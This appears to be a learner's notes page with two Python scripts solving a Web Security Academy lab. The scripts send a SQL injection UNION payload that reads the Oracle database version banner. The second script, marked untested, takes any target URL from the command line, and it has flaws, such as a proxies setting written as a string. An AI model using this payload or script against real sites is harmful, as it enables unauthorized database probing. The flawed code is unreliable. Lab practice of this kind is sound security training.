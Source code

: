 First created in Jupyter. I wanted to try it out and while i wouldn't use it all the time i can see it is absolutely great at certain tasks like web scraping. 

```python
import requests
import urllib3
from bs4 import BeautifulSoup
import re
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

path = 'https://0a4100520480a53c8201cada005d0006.web-security-academy.net/filter?category=Pets/'

exploit = "'+UNION+SELECT+banner,+NULL+FROM+v$version--"

r = requests.get(path + exploit, verify=False)

if '200' in r.text:
    res = r.text
    
    soup = BeautifulSoup(res, 'html.parser')
	version = soup.find(string=re.compile('.*Oracle\sDatabase*.'))
print(version)
```

Very Basic script that i will remake tomorrow.

_Untested new script:_
- I should check how to do a simple banner.

```python
import requests
import urllib3
from bs4 import BeautifulSoup
import re
import sys
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = "'http': '127.0.0.1:8080', 'https': '127.0.0.1:8080'"

def parse(res):
    if '200' in res:
        soup = BeautifulSoup(res, 'html.parser')
        version = soup.find(string=re.compile('.*Oracle\sDatabase*.'))
        print('Exploit worked...\n',version)
    else:
        print('Exploit failed.')
        sys.exit(-1)

def sql_attack(url):
    vuln_path = url + "'+UNION+SELECT+banner,+NULL+FROM+v$version--"

    r = requests.get(vuln_path, verify=False, proxies=proxies)

    res = r.text
    parse(res)

def main():
    if len(sys.argv) != 2:
        print('(+) Usage: %s <URL>' % sys.argv[0])
        print('(+) Example: %s www.example.com' % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    sql_attack(url)


if __name__ == "__main__":
    main()
```


